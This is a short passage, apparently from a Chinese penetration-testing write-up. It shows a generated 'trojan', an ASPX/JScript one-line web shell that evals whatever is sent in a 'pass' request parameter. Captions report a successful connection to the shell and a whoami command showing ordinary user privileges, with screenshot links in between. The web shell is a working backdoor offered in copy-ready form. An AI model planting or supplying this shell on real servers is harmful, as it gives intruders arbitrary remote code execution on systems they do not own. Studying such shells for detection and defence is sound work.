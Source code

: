 生成的木马内容：

<%@ Page Language="Jscript"%><%eval(Request.Item\["pass"\],"unsafe");%>

[![](assets/1705301733-01737c548487b53dff2288f16d9b5f59.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240112140137-0c0a1c62-b110-1.png)

成功连接

[![](assets/1705301733-22597d13307efa503cfa2d9fa33871dc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240112140146-11285088-b110-1.png)

命令行执行whoami是普通用户权限

[![](assets/1705301733-4a2f964924ca481e850017c95d760fc6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240112140154-15eaff26-b110-1.png)
